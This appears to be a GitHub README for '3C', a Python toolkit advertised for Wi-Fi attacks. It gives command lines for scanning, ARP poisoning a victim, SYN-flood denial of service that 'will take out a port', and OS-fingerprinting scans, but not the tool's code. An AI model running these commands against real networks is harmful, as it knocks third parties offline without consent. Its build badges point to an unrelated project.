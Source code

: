 
<img src="https://github.com/PyDever/AirCat/blob/master/img/3c%20(1).png" width="250">

 [![Build status](https://ci.appveyor.com/api/projects/status/pjxh5g91jpbh7t84?svg=true)](https://ci.appveyor.com/project/tygerbytes/resourcefitness) 
[![Coveralls](https://coveralls.io/repos/github/tygerbytes/ResourceFitness/badge.svg?branch=master)](https://coveralls.io/github/tygerbytes/ResourceFitness?branch=master) 
[![License](https://img.shields.io/badge/License-BSD%202--Clause-orange.svg)](https://opensource.org/licenses/BSD-2-Clause)
<br>

3C gives you an arsenal of Wi-Fi tools to perform DDoS, ARP poisons, and more. 
```
$ python scan -r <IP range>
```
```
$ python poison -t <victim IP> -m <victim MAC>
```
<hr>

***New feature!*** (v2.0 update)
3C can now perform SYN flood DDoS attacks.
```
$ python flood -t <victim IP> -p <port> -l <payload>
```
It will take out a port in about 3-5 minutes. It is not 
multi-threaded yet.

***New feature!*** (v2.2 update)
3C can now access some basic Nmap functionality.
```
# from inside 3C folder
import libnmap

libnmap.ARP_dis() # discover hosts 

# run OS-fingerprinting nmap SYN scan
libnmap.SYN_scan(ports=<port range>, host=<target IP>, 
    os_det=True, ttl=20, src='0.0.0.0')
```

## Installation 
Make sure to have `scapy` fully installed and tested.
```
$ git clone <this repo>
```

### ARP Poison Explanation
3C injects your access point with venomous ARP packets that kick the victim offline. 
```
                         (no connection)
You -----[3C_pkt]-----> AP -----X-----> victim
```

